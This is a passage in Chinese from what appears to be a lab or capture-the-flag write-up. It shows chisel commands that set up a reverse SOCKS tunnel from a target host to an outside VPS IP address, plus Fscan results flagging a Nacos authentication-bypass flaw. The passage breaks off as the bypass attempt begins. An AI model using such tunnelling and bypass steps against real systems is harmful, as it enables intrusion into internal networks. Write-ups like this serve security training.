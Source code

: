 ## 代理搭建

VPS端

```plain
./chisel server -p 7000 -reverse
```

[![](assets/1706771111-56f2612cf5fd26254f801738e8fac0df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129173516-b59c070a-be89-1.png)

靶机

```plain
./chisel client 119.3.215.198:7000 R:0.0.0.0:7001:socks
```

[![](assets/1706771111-44120f3106cb5bb5dc344e050c88e13b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129173528-bcf37ed4-be89-1.png)

## 攻击域用户一(nacos Yaml反序列化)

### 信息泄露

在Fscan扫描结果中发现

```plain
[+] PocScan http://172.30.12.6:8848 poc-yaml-alibaba-nacos 
[+] PocScan http://172.30.12.6:8848 poc-yaml-alibaba-nacos-v1-auth-bypass
```

所以尝试一下用户登录绕过漏洞

[![](assets/1706771111-d3791e6ad411c3c0b6f1af5b8a3ad29c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129173536-c1cbf2b0-be89-1.png)
